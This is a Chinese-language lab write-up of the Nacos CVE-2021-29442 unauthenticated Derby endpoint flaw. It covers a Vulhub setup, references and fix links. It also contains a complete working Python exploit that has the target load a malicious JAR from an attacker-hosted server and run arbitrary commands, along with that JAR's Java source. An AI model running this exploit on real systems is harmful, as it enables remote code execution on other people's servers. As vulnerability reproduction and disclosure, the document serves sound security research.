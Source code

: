 # Nacos 未授权接口命令执行漏洞 CVE-2021-29442

## 漏洞描述

Nacos 是一个设计用于动态服务发现、配置和服务管理的易于使用的平台。

在 Nacos 1.4.1 之前的版本中，一些 API 端点（如 `/nacos/v1/cs/ops/derby`）可以默认没有鉴权，可以被未经身份验证的用户公开访问。攻击者可以利用该漏洞执行任意 Derby SQL 语句和 Java 代码。

参考链接：

- https://github.com/advisories/GHSA-xv5h-v7jh-p2qh
- https://github.com/alibaba/nacos/issues/4463
- http://www.lvyyevd.cn/archives/derby-shu-ju-ku-ru-he-shi-xian-rce
- https://nacos-group.github.io/blog/announcement-derby-ops-api/?source=news/
- https://nacos.io/zh-cn/docs/v2/guide/user/auth.html

## 漏洞影响

```
Nacos未鉴权（Nacos<1.4.1）且使用Derby数据库作为内置数据源
```

## 环境搭建

Vulhub 执行如下命令启动一个 Alibaba Nacos 1.4.0 服务器：

```
docker compose up -d  
```

服务器启动后，访问 `http://your-ip:8848/nacos/` 可以看到 Nacos 的默认登录页面。

![](images/Nacos%20未授权接口命令执行漏洞%20CVE-2021-29442/image-20240716174011999.png)

## 漏洞复现

将恶意 JAR 包 [evil.jar](https://github.com/vulhub/vulhub/blob/master/nacos/CVE-2021-29442/evil.jar) 上传到攻击者的 HTTP 服务器上，例如 `http://some-webserver/evil.jar`。

执行 [POC](poc.py)：

```
python poc.py -t http://your-ip:8848 -s http://some-webserver/evil.jar -c "id"  
```

`-t` 参数指定目标地址，`-s` 参数指定恶意 JAR 包的地址，`-c` 参数指定要执行的命令。

![](images/Nacos%20未授权接口命令执行漏洞%20CVE-2021-29442/image-20240716175547902.png)

## 漏洞 POC

poc.py

```python
import random
import sys
import requests
from urllib.parse import urljoin
import argparse


def exploit(target, command, service):  
    removal_url = urljoin(target, '/nacos/v1/cs/ops/data/removal')
    derby_url = urljoin(target, '/nacos/v1/cs/ops/derby')
    for i in range(0, sys.maxsize):
        id = ''.join(random.sample('abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ', 8))
        post_sql = f"""CALL sqlj.install_jar('{service}', 'NACOS.{id}', 0)
CALL SYSCS_UTIL.SYSCS_SET_DATABASE_PROPERTY('derby.database.classpath', 'NACOS.{id}')
CREATE FUNCTION S_EXAMPLE_{id}( PARAM VARCHAR(2000)) RETURNS VARCHAR(2000) PARAMETER STYLE JAVA NO SQL LANGUAGE JAVA EXTERNAL NAME 'test.poc.Example.exec'
"""
        get_sql = f"select * from (select count(*) as b, S_EXAMPLE_{id}('{command}') as a from config_info) tmp"
        files = {'file': post_sql}
        post_resp = requests.post(url=removal_url, files=files)
        post_json = post_resp.json()
        if post_json.get('message', None) is None and post_json.get('data', None) is not None:
            print(post_resp.text)
            get_resp = requests.get(url=derby_url, params={'sql': get_sql})
            print(get_resp.text)
            break


def main():
    parser = argparse.ArgumentParser(description='Exploit script for Nacos CVE-2021-29442')
    parser.add_argument('-t', '--target', required=True, help='Target URL')
    parser.add_argument('-c', '--command', required=True, help='Command to execute')
    parser.add_argument('-s', '--service', required=True, help='Service URL')
    
    args = parser.parse_args()
    
    exploit(args.target, args.command, args.service)

if __name__ == '__main__':
    main()
```

evil.jar

```
package test.poc;

import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.io.PrintWriter;
import java.io.StringWriter;

public class Example {
  public static void main(String[] args) {
    String ret = exec("ipconfig");
    System.out.println(ret);
  }
  
  public static String exec(String cmd) {
    StringBuffer bf = new StringBuffer();
    try {
      String charset = "utf-8";
      String osName = System.getProperty("os.name");
      if (osName != null && osName.startsWith("Windows"))
        charset = "gbk"; 
      Process p = Runtime.getRuntime().exec(cmd);
      InputStream fis = p.getInputStream();
      InputStreamReader isr = new InputStreamReader(fis, charset);
      BufferedReader br = new BufferedReader(isr);
      String line = null;
      while ((line = br.readLine()) != null)
        bf.append(line); 
    } catch (Exception e) {
      StringWriter writer = new StringWriter();
      PrintWriter printer = new PrintWriter(writer);
      e.printStackTrace(printer);
      try {
        writer.close();
        printer.close();
      } catch (IOException iOException) {}
      return "ERROR:" + writer.toString();
    } 
    return bf.toString();
  }
}
```

## 漏洞修复

- https://nacos-group.github.io/blog/announcement-derby-ops-api/?source=news/ 关于 Nacos Derby 数据库运维接口 `/nacos/v1/cs/ops/derby` 相关问题公告
- https://nacos.io/zh-cn/docs/v2/guide/user/auth.html Nacos 鉴权文档

